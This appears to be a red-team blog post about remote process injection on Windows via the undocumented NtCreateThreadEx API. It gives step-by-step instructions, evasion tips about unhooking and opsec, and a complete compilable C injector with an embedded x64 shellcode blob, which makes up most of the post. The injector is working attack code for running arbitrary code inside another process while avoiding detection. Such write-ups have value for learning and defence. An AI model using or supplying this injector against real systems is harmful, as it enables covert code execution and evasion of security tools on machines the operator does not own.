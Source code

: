 ```yaml
---
layout: post
title: "7 days of Red- Day 5"
date: 2021-4-4 00:00:00 -0400
categories: Writeup

---
```




```


███████╗    ██████╗  █████╗ ██╗   ██╗███████╗     ██████╗ ███████╗    ██████╗ ███████╗██████╗ 
╚════██║    ██╔══██╗██╔══██╗╚██╗ ██╔╝██╔════╝    ██╔═══██╗██╔════╝    ██╔══██╗██╔════╝██╔══██╗
    ██╔╝    ██║  ██║███████║ ╚████╔╝ ███████╗    ██║   ██║█████╗      ██████╔╝█████╗  ██║  ██║
   ██╔╝     ██║  ██║██╔══██║  ╚██╔╝  ╚════██║    ██║   ██║██╔══╝      ██╔══██╗██╔══╝  ██║  ██║
   ██║      ██████╔╝██║  ██║   ██║   ███████║    ╚██████╔╝██║         ██║  ██║███████╗██████╔╝
   ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝     ╚═════╝ ╚═╝         ╚═╝  ╚═╝╚══════╝╚═════╝ 
                                                                                              
██████╗  █████╗ ██╗   ██╗    ███████╗                                                         
██╔══██╗██╔══██╗╚██╗ ██╔╝    ██╔════╝                                                         
██║  ██║███████║ ╚████╔╝     ███████╗                                                         
██║  ██║██╔══██║  ╚██╔╝      ╚════██║                                                         
██████╔╝██║  ██║   ██║       ███████║                                                         
╚═════╝ ╚═╝  ╚═╝   ╚═╝       ╚══════╝                                                         
                                                                                              


```



## Remote Process Injection via NtCreateThreadEx

### Day 5

Remote Process Injection is a method for operators to migrate to active processes in order to blend in to the target and execute arbitrary code. There are plenty of ways to do this, however in this blogpost we'll be using **`NtCreateThreadEx`** in order to start a new thread in the virtual address space of the remote process.**`NtCreateThreadEx`** is a undocumented Native API that resides in nt.dll which is the library where the Native API live. The more well known Windows API **`CreateRemoteThread`** actually calls this function behind the scenes before it enters the kernel. Still in order to use this technique in engagements  you may need to unhook this function in order to not have it get flagged. 

### Steps:

   1.Open Remote Process - OpenProcess()

   2.Allocate Memory in the Remote Process with PAGE_EXECUTE_READWRITE permissions-VirtualAllocEx()

​      * Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec

   3.Write shellcode over to the newly allocated memory space - WriteProcessMemory()

   4.Start a New Thread pointing to the allocated memory space -NtCreateThreadEx()

```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI *NtCreateThreadEx)(HANDLE * pHandle, ACCESS_MASK DesiredAccess, void * pAttr, HANDLE hProc, void * pFunc, void * pArg, ULONG Flags, SIZE_T ZeroBits, SIZE_T StackSize, SIZE_T MaxStackSize, void * pAttrListOut);



int main(int argc,char **argv){
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e\x4c\x8d"
"\x85\x08\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5\x53\x68\x65"
"\x6c\x6c\x63\x6f\x64\x65\x00\x53\x75\x63\x63\x65\x73\x73\x00";


HANDLE hthread=NULL;
DWORD pid = atoi(argv[1]);
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS,FALSE,pid);
VOID *payload= VirtualAllocEx(hProc,NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc,payload,shellcode,sizeof(shellcode),NULL);
NtCreateThreadEx pNtCreateThreadEx = (NtCreateThreadEx)GetProcAddress(LoadLibrary("ntdll.dll"),"NtCreateThreadEx");
pNtCreateThreadEx(&hthread,GENERIC_ALL,NULL,hProc,(LPTHREAD_START_ROUTINE)payload,NULL,FALSE,0,0,0,NULL);
return 0;
}

```

